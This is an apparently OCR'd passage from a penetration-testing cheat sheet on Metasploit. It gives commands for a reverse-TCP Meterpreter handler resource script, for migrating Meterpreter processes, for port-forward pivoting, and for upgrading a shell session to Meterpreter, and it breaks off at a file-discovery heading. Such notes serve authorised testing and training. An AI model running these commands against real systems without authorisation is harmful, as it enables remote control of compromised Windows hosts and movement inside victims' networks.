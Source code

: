 ```bash
# Automation
ls -lah /usr/share/metasploit-framework/scripts/resource

# Create a handler resource
nano handler.rc
# Insert the following lines
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
run
# Save it and exit

msfconsole -q -r handler.rc

# msfconsole
resource handler.rc

# Export inserted msfconsole commands into a resource script
makerc <FILE>.rc
```

## **Windows Post-Exploitation**

```bash
# METERPRETER
run post/windows/manage/migrate
migrate <pid> #more quickly
## Pivoting
portfwd add -l <LOCAL_PORT> -p <TARGET_PORT> -r <TARGET_IP>
```

```bash
# Manual SHELL TO METERPRETER
background # or CTRL+Z
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST <LOCAL_IP>
run

sessions
sessions 2

# Auto SHELL TO METERPRETER
sessions -u 1
sessions 3
```

### **File system discovery**
